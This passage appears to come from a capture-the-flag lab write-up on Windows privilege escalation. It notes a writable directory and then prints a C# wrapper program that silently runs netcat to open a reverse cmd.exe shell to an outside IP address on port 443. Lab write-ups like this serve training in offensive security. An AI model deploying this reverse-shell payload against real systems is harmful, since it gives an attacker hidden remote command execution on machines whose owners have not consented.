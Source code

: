 ![alt-47](/assets/img/wreath-writeup/Writable-directory.png)

The access is given to those in the Users group, so I can write to this
path!

###  Privilege Escalation

A wrapper.cs program will be created to execute netcat.

```
using System; 

using System.Diagnostics; 

namespace Wrapper{ 

    class Program{ 

        Static void Main(){ 

            Process proc = new Process(); 

            ProcessStartInfo procInfo = new ProcessStartInfo(“C:\\Windows\\temp\\L15t3nr\\nc.exe”, “10.50.82.91 443 -e cmd.exe”);  

            procInfo.CreateNoWindow = true; 

            proc.StartInfo = procInfo; 

            proc.Start();      

        } 

    } 

}
```

